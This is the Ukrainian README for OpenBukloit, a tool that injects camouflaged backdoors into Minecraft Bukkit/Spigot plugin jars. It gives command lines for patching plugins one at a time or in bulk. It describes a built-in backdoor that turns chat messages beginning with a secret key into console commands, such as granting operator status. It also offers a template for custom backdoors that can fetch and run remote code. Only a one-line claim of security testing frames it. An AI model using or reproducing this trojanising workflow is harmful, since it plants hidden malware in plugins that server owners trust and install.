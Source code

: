 <div align="center"><h1>OpenBukloit - Інжектор бекдорів для Minecraft плагінів</h1></div>

<div align="center"><img alt="Logo" src="../logo.png"/></div>

<div align="center">
    <a href="https://github.com/VoxelHax/OpenBukloit/issues"><img alt="Open issues" src="https://img.shields.io/github/issues-raw/VoxelHax/OpenBukloit"/></a>
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="GitHub downloads" src="https://img.shields.io/github/downloads/VoxelHax/OpenBukloit/total"></a>
    <img alt="Code size" src="https://img.shields.io/github/languages/code-size/VoxelHax/OpenBukloit"/>
    <a href="https://www.codefactor.io/repository/github/voxelhax/openbukloit"><img alt="CodeFactor" src="https://www.codefactor.io/repository/github/voxelhax/openbukloit/badge"/></a>
    <a href="https://discord.gg/xtaktPTzYp"><img alt="Discord" src="https://img.shields.io/discord/928214827095175199"></a>
</div>

<div align="center">
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="Download" src="https://img.shields.io/badge/-ЗАВАНТАЖИТИ_ОСТАНІЙ_РЕЛІЗ_(КЛІК)-blue?style=for-the-badge"/></a>
</div>

<br>

<hr>

**Мови: [English](../README.md), [Русский](README_RU.md), [Українська](README_UA.md)**

**OpenBukloit** — сучасний та потужний універсальний інжектор бекдорів, сумісний з усіма Bukkit/Spigot/Paper/і т.д. плагінами. Його особливістю є можливість інтеграції з будь-яким плагіном без необхідності щоразу модифікувати бекдор. Більш того, він забезпечує потужний двигун камуфляжу,
що робить практично неможливим його пошук без достатніх знань чи просунутих автоматизованих інструментів. OpenBukloit був розроблений для тестування систем безпеки серверів Minecraft. Команда VoxelHax не несе відповідальності за його неправомірне використання.

Це продовження проекту **[Bukloit](https://github.com/Rikonardo/Bukloit)**, в якому ми врахували всі проблеми попереднього проекту та використали зовсім інший підхід до розробки.

## Можливості OpenBukloit
- **Повна підтримка Bukkit та його форків на будь-якій версії Minecraft.**
- **Підтримка користувальницьких бекдорів.**
- **Автоматичне завантаження JDK, тому вам не потрібно дбати про сумісність версії Java.**
- **Потужний камуфляжний двигун, що ускладнює пошук бекдору у плагіні.**

## Встановлення
Для використання OpenBukloit у вас має бути встановлена будь-яка версія Java (але не нижче 8). Jar-файл OpenBukloit можна завантажити з [вкладки релізів](https://github.com/Voxelhax/OpenBukloit/releases/latest). OpenBukloit не вимагає жодних додаткових дій, просто помістіть файл jar кудись і використовуйте його з командного рядка.

## Використання
Щоб запустити OpenBukloit, відкрийте командний рядок у каталозі, де знаходиться jar-файл OpenBukloit та введіть:

```sh
java -jar OpenBukloit.jar
```

Після імені файлу jar можна передати деякі аргументи для налаштування інжектора:

| Короткий аргумент | Довгий аргумент | Опис                                                                                                                                                                                  | Тип      |
|-------------------|-----------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------|
| -e                | --exploit       | Шлях до скомпільованого файлу .class або до похідного коду .java, який буде використовуватися як бекдор.<br />**За замовчуванням використовується вбудований бекдор.**                | Значення |
| -m                | --mode          | Режим Може бути одиночним/множинним.<br />**За замовчуванням: <ins>multiple</ins>.**<br />У множинному режимі змінює всі файли у зазначеній папці. В одиночному - лише вказаний файл. | Значення |
| -i                | --input         | Шлях до вхідної папки/файлу (залежить від режиму).<br />**За замовчуванням: <ins>in</ins> (<ins>in.jar</ins> якщо режим одиночний).**                                                 | Значення |
| -o                | --output        | Шлях до вихідної папки/файлу (залежить від режиму).<br />**За замовчуванням: <ins>out</ins> (<ins>out.jar</ins> якщо режим одиночний).**                                              | Значення |
| -r                | --replace       | Замінювати вихідний файл, якщо він вже існує.                                                                                                                                         | Флаг     |
|                   | --no-camouflage | Не застосовувати камуфляж (може бути корисним, якщо камуфляж не працює належним чином через обфускацію плагіна).                                                                      | Флаг     |
|                   | --class-name    | **Працює тільки з флагом `--no-camouflage`!** Задати кастомну назву для класа експлоїта (може включати назву пакета, наприклад: `com.voxelhax.OpenBukloitExploit`).                   | Значення |
|                   | --method-name   | **Працює тільки з флагом `--no-camouflage`!** Задати кастомну назву для метода `inject` у класі експлоїта.                                                                            | Значення |

Але цих аргументів недостатньо для запуску OpenBukloit. Ви також маєте вказати параметри бекдора. Оскільки OpenBukloit підтримує впровадження користувацьких бекдорів, ви повинні передати додаткові аргументи, які потрібні для бекдору.

## Вбудований експлоїт

За замовчанням OpenBukloit використовує вбудований бекдор. Це простий бекдор, який дозволяє виконувати будь-які команди з консолі, написавши спеціальне ключове слово перед командою в чаті.

Параметри вбудованого бекдору:

| Довгий аргумент | Опис                                                      |
|-----------------|-----------------------------------------------------------|
| --key           | Ключове слово, яке запускає виконання консольної команди. |

Використання у грі ключа, встановленого на значення "hackthisserver":

```
hackthisserver op MyName
```

Це повідомлення, відправлене в чат, буде виконане як консольна команда і дасть ОП гравцю MyName.

**Ось кілька прикладів використання OpenBukloit із вбудованим бекдором:**

1. Пропатчити всі .jar файли з ключем "#console" із папки "in" і зберегти їх у папку "out" без заміни.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "#console"
```

2. Пропатчити всі файли з ключем "hacktheserver" з папки "in" і зберегти їх у папку "out" із заміною.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "hacktheserver" -r
```

3. Пропатчити один файл "PluginName.jar" з ключем "#console" і зберегти його як файл "Output.jar" із заміною.

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r
```

4. Пропатчити один файл "PluginName.jar" з ключем "#console" і зберегти його як файл "Output.jar" із заміною. Не застосовувати камуфляж і назвати клас експлоїта "com.voxelhax.OpenBukloitExploit".

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r --no-camouflage --class-name "com.voxelhax.OpenBukloitExploit"
```

## Написання користувальницького експлоїту

Ви також можете написати власний бекдор. Це має бути клас із методом `public static void inject(JavaPlugin args)` (JavaPlugin з Bukkit API).

Ось простий приклад:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, world!");
    }
}
```

Метод `inject` буде виконаний після методу `onEnable` плагіна. Ви можете робити тут все, що ви хочете, включаючи завантаження та запуск довільного коду з Інтернету.

Але ви повинні знати, що є деякі обмеження:
- В даний час ви не можете використовувати вкладені класи, у файлі експлоїту має бути лише один клас.
- Ви не повинні посилатися на свій клас експлоїту всередині нього, наприклад, використовувати його як параметри методу, як значення, що повертається, або як тип поля.

Ви можете використовувати зовнішні параметри з командного рядка, використовуючи %placeholders%, вони будуть підставлені в процесі інжекта:
Ось простий приклад:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, %name%!");
    }
}
```

Потім ви можете заінжектити бекдор за допомогою команди:

```sh
java -jar OpenBukloit.jar -e MyBackdoor.java --name world
```

Зверніть увагу, що ми можемо передати наш бекдор OpenBukloit без компіляції, і він автоматично скомпілює його з наявністю API Spigot в пулі класів під час компіляції.
